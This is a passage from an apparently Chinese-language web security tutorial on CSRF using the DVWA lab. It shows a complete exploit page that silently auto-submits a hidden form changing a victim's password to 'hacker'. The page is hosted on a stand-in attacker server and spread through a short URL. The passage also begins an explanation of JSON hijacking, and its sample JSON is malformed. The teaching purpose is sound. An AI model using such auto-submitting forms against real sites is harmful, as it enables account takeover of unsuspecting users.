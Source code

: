 像这种 GET 型的 CSRF 漏洞利用就是仅需要修改下原 GET 的参数值，构造个链接发给对方就可以了；甚至直接使用图片链接嵌入到受害者可能访问的页面（博客、论坛、邮件等等），也可以实现漏洞的利用，这种利用方式更加隐蔽。

如果是 POST 请求，就需要编写利用代码，用 JS 脚本去实现自动提交表单，然后把它放在自己控制的服务器上。假设存放地址为 http://hacker.com/exploit.html ，再生成短网址 http://dwz.date/d74a 发给受害者。

<Image alt="Drawing 4.png" src="https://s0.lgstatic.com/i/image2/M01/04/D0/CgpVE1_2hBiALUGsAAQ2XWTdSOE628.png"/>  
图 5：短网址生成

exploit.html 利用代码如下：

```xml
<html>
<form name = "test" action = "http://127.0.0.1/vulnerabilities/csrf" method = "post" >
<input type = "hidden" value="hacker" name="password_new" >
<input type = "hidden" value="hacker" name="password_conf" >
<input type = "hidden" value="Change" name="Change" >
</form>
<script>document.test.submit();</script>
</html>
```

这里是就模拟原网站的表单提交内容设置的，每个 input 都添加 type="hidden" 的属性是为了不在网页中显示，最后再利用 document.test.submit() 去自动提交表单，其中 "test" 是指 form 名单。

如果受害者访问上述包含 exploit.html 的 http://dwz.date/d74a ，就会发起以下请求：

<Image alt="Drawing 5.png" src="https://s0.lgstatic.com/i/image/M00/8C/F6/CgqCHl_2hCCAEyT6AABwbigIZJo638.png"/>  
图 6：通过 POST 请求利用 CSRF 漏洞

DVWA 的 CSRF 题目没有 POST 请求，上述的利用方式主要介绍的是 POST 类型的利用手法。这种方法反而比较常用，相信你在未来的 CSRF 测试中能够用上。

### JSON 劫持攻击

JSON（JavaScript Object Notation，JavaScript 对象符号）是一种可以序列化任意数据，并能被 JavaScript 注释器直接处理的简单数据交换格式。我们来看一段 JSON 格式的包含用户信息的数据：

```json
{ 
  "people":[ 
    {
      "name": "Brett",
      "email":"Brett@qq.com"
    },
    {
      "name":"Jason",
      "Jason@lagou.com"
    }
  ]
}
```

JSON 劫持是一种特殊的 CSRF 攻击方式，本质上也是未对请求来源做有效校验导致的，它主要是用来窃取服务器返回的敏感信息。

实现 JSON 劫持主要有两种攻击方式：覆写数据构造器和执行回调函数。
